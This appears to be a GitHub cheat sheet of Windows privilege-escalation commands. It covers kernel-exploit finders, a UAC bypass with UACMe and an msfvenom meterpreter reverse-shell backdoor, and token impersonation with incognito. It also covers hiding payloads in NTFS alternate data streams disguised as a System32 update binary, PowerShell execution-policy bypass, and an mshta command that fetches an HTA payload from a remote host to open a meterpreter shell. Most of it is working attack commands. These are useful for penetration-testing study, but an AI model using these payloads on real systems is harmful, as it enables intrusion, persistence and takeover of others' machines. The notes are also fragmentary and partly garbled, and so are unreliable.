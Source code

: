# Windows Privilege Escalation

--------------------------------------------------------------------

## Windows Kernel Exploitation: (Not recommened can cause crashes)

```
Windows NT (Predefined)

Windows-Exploit-Suggester (Github Tool)

Windows-Kernel-Exploits (Github Tool)
```

--------------------------------------------------------------------

## UAC: (need to have an user inside the administrators group)

```
$ net localgroup administrators

UACMe (Github tool)
    
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > backdoor.exe
use multi/handler (same payload as the paylaod)
set same ip and port 
.\Akagi64.exe 23 C:\Temp\backdoor.exe
    

exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
```

--------------------------------------------------------------------

## Windows Access Tokens: (SeImpersonatePrivilege, SeAssignPrimaryToken, SeCreateToken)

```
getprivs

load incognito

list_tokens -u

impoersonate_token “token_name”

migrate to other process
```

--------------------------------------------------------------------

## Alternate Data Streams:

> [!NOTE]
> Is an NTFS (New Tchnology File System) file attribute that was designed to provide compatibility with the MacOS HFS (Hierarchical File System)
> Data stream (default stream that contains data of the file) and Resource stream (typically contains the metadata of the file)

```
notepad text.txt:secret.txt

type paylaod.exe > windowslog.txt:winpeas.exe

start windowslog.txt:windows.exe

cd Windows\System32

mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
```

--------------------------------------------------------------------


## PrivescCHECK - PowerShell script

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

powershell -ep bypass (PowerShell execution policy bypass)
. .\PowerUp.ps1
Invoke-PrivescAudit

Decode on powershell

Commands:
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

runas.exe /user:administrator cmd


> Basic Mode

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"


> Extended Mode + Export Txt Report

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
runas.exe /user:administrator cmd
hello_123321
use exploit/windows/misc/hta_server
Copy the generated payload i.e “[http://10.10.15.2:8080/jxEyD3w.hta”](http://10.10.15.2:8080/jxEyD3w.hta%E2%80%9D) and run it on cmd.exe
with mshta command to gain the meterpreter shell.
mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
```

--------------------------------------------------------------------